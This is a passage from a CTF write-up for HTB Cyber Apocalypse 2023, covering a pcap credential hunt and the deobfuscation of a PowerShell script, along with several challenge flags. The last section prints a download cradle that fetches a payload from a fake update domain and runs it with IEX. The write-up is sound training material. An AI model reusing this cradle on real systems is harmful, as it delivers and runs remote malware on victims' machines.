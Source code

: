<br>
By running the above command, our encrypted text is decoded and we got our flag.

> HTB{5ma1l_E-xp0n3nt}

<br>
<h1><b><u>Forensics</u></b></h1>

<br>
## Plaintext Tleasure

<br><img src="/assets/images/2023/htb_cyber_apocalypse_ctf/plaintext_tleasure_1.png" alt="plaintext_tleasure">

<br>
We are given a **pcap** file in this challenge and our objective is to find the admin username and password. Once we get the username and the password, we will also get the flag. So, I opened up the file in the wireshark and searched for the "admin" string in the http protocols. 

<br><img src="/assets/images/2023/htb_cyber_apocalypse_ctf/plaintext_tleasure_2.png" alt="plaintext_tleasure">

<br>
We can see that there two http protocols which contains the **admin** string. So, next I followed the TCP stream of these packets and I saw something interesting.

<br><img src="/assets/images/2023/htb_cyber_apocalypse_ctf/plaintext_tleasure_3.png" alt="plaintext_tleasure">

<br>
I finally found the flag that I was searching for.

> HTB{th3s3_4l13ns_st1ll_us3_HTTP}

<br>
## Aien Cradle

<br><img src="/assets/images/2023/htb_cyber_apocalypse_ctf/alien_cradle_1.png" alt="alien_cradle">

<br>
In this challenge, we are given a *Poweshell* executable file called **cradle.ps1**. We have to deobfuscate the code in order to get our flag. I opened up the file in a text editor and after some format cleaning up, this is how the code looked in the file.
```
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth')
{
	exit
};

$w = New-Object net.webclient;
$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;
$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');
$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));
$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```
